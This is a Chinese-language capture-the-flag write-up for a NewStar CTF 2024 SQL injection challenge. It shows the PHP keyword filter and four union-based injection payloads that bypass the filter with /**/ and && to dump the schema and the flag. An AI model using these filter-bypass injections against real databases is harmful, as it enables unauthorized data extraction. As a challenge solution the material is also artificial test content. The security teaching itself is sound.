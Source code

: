 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 谢谢皮蛋 plus

同样还是联合注入，意在考查空格和 `and` 的绕过，为了避免直接使用报错注入得到 flag，将报错注入 ban 了

```php
preg_match_all("/ |extractvalue|updataxml|and/i",$id)
```

值得注意的一个点是，这题是双引号闭合，如果没有细心的检查会误以为是单引号闭合

![注意引号的闭合种类](/assets/images/wp/2024/week2/pidan-plus_1.png)

双引号中带有单引号也可以执行成功，属于 MySQL 的一种特性，可以自行尝试一下

![双引号中带有单引号也可以执行成功](/assets/images/wp/2024/week2/pidan-plus_2.png)

`and` 使用 `&&` 替换，空格使用 `/**/` 替换，其他就是一样的操作了

查询当前数据库

```sql
-1"/**/union/**/select/**/1,database()#
```

查询所有表名

```sql
-1"/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/database()#
```

查询所有列名

```sql
-1"/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/=/**/'Fl4g'/**/&&/**/table_schema/**/=/**/database()#
```

得到flag

```sql
-1"/**/union/**/select/**/group_concat(des),group_concat(value)/**/from/**/Fl4g#
```
